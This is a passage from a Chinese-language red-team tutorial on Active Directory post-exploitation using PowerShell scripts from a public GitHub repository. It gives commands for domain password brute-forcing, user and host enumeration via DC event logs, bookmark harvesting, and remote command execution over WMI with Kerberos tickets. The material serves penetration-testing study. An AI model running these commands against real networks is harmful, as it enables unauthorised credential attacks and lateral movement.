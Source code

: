 - Dump-UserEmail

https://github.com/Mr-Un1k0d3r/RedTeamPowershellScripts/blob/master/scripts/Utility.ps1


![](https://images2018.cnblogs.com/blog/549050/201806/549050-20180613193434747-2020884276.png)

- 域密码破解 

这并不一定是最隐秘的方法，从提取的用户列表暴力破解用户的密码。

https://github.com/Mr-Un1k0d3r/RedTeamPowershellScripts/blob/master/scripts/Invoke-ADPasswordBruteForce.ps1

```
"neo","morpheus" | Invoke-ADPasswordBruteForce -Password "password" -Domain MATRIX
```

这个cmdlet支持其他域，甚至可以对其他受信任域执行穷举破解。

穷举破解依赖于ValidateCredentials()方法，它很明显地连接到DC，特别是如果试图强制所有用户使用穷举破解时。

- 查找基于名称特定用户的SamAccountName

https://github.com/Mr-Un1k0d3r/RedTeamPowershellScripts/blob/master/scripts/Search-FullNameToSamAccount.ps1

```
Search-FullNameToSamAccount -Filter Hamilton
```

![](https://images2018.cnblogs.com/blog/549050/201806/549050-20180613201026400-81187557.png)

- 搜索当前用户的计算机

这一项需要提升权限，搜索当前用户的计算机。

https://github.com/Mr-Un1k0d3r/RedTeamPowershellScripts/blob/master/scripts/Search-EventForUser.ps1

```
Search-EventForUser -TargetUser charles.hamilton -FindDC true
```

在DC的所有事件日志中搜索登录事件

- 获取浏览器书签以发现感兴趣的内部资产

https://github.com/Mr-Un1k0d3r/RedTeamPowershellScripts/blob/master/scripts/Get-IEBookmarks.ps1

```
Get-IEBookmarks
```

### 6、工具和技巧

WDIGEST没有返回任何内容，但是当前用户在另一个系统上具有本地管理权限。

- 使用Kerberos票据去远程连接利用WMI

https://github.com/Mr-Un1k0d3r/RedTeamPowershellScripts/blob/master/scripts/Remote-WmiExecute.ps1

```
Remote-WmiExecute -ComputerName victim01 -Payload "cmd.exe /c whoami"
```
谈到Kerberos票据——为什么有时会拒绝访问?
